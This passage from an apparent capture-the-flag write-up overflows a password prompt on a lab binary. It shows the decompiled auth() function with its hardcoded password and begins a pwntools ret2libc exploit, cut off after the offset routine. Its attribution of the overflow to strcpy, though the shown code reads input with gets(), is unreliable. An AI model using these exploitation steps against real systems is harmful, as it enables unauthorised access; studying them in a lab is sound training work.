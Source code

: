 For those familiar with the movie, must recognize the `garbage`. As I said, the machine was full of Easter-Eggs. Fantastic Movie, do watch it sometimes. 

It asks for a access password. With usual for binaries, I try to overflow the buffer, with `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA` and BAM! we have a `Segmentation fault (core dumped)`. The binary has a buffer overflow. I scp the binary to my local machine. 

Let the reverse engineering begin

```

ulong auth(undefined4 uParm1)

{
  int iVar1;
  undefined8 local_f8;
  undefined8 local_f0;
  undefined8 local_e8;
  undefined2 local_e0;
  char local_88 [100];
  char local_24 [12];
  undefined4 local_18;
  
  local_18 = uParm1;
  strcpy(local_24,username);
  printf("Enter access password: ");
  gets(local_88);
  putchar(10);
  iVar1 = strcmp(local_88,"N3veRF3@r1iSh3r3!");
  if (iVar1 != 0) {
    puts("access denied.");
  }
  else {
    local_f8 = 0x6720737365636361;
    local_f0 = 0x66206465746e6172;
    local_e8 = 0x3a7265737520726f;
    local_e0 = 0x20;
    strcat((char *)&local_f8,local_24);
    syslog(6,(char *)&local_f8);
    puts("access granted.");
  }
  return (ulong)(iVar1 == 0);
}

```

`strcpy` is used, which does not handle the length of the destination buffer. Hence, the BOF.

Since, Libc is used, I use a ret2libc attack. For more explanation, refer to this [writeup](http://itsvipul.com/writeups/Sec_fest/Baby1.html)

Final Exploit 

```
#! /usr/bin/python2
from pwn import *

def get_offset(binary):
    elf = binary
    #context.log_level = 'debug'
    io = process(elf.path)
    io.sendline(cyclic(2010))
    io.wait()
    core = io.corefile
    stack = core.rsp
    #info("%#x stack", stack)
```